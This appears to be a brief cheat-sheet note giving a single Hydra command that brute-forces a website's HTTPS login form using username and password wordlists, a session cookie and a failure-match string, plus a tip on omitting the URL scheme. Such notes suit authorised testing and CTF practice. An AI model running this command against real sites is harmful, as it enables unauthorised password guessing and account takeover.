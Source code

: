 # Commands

#### Hydra https-post-form
Note: Not add the schema -> website.net instead of https://website.net
```
sudo hydra -L usernames -P passwords website.net https-post-form "/login:username=^USER^&password=^PASS^:H=Cookie: session=vmHyautfoxx2Peek4LJu9J4vt0S14SrN:F=Invalid"
```
